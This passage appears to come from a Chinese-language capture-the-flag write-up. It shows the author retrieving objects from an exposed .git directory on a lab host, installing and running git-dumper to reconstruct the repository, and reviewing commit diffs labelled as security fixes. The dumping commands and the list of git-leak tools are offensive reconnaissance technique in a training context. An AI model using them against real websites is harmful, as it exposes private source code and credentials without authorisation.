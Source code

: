 同时还得到新的hash

```python
6ab71e25904c53073631f4f613f88d762cc4a0e3
edb18f3e0cd9ee39769ff3951eeb799dd1d8517e
```

同样的方法，分别访问

```python
http://10.10.11.178/dev/.git/objects/6a/b71e25904c53073631f4f613f88d762cc4a0e3
http://10.10.11.178/dev/.git/objects/ed/b18f3e0cd9ee39769ff3951eeb799dd1d8517e
```

### 使用工具

因为这样的方式很繁琐，并且需要重复，工具的话一般有 

- git-money
- GitTools
- DVCS-Pillage
- git-dumper

这里用git-dumper （ `pipx install git-dumper`  pipx是基于pip的可以安装包到隔离环境里，且减少依赖冲突的一种包管理工具)

使用git-dumper

```python
git-dumper http://10.10.11.178/dev git
```

提取完成后有以下目录

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%203.png)

### 分析git提交记录/代码

查看历史commits

```python
~ git log --oneline                                                                        (exploit) 0 [17:36:28]
208167e (HEAD -> master) Potential security fixes
edb18f3 Security Fixes
f1369cf Initial commit
```

查看security fixes是什么内容

```python
git diff f1369cf edb18f3
```

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%204.png)

另外两条

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%205.png)
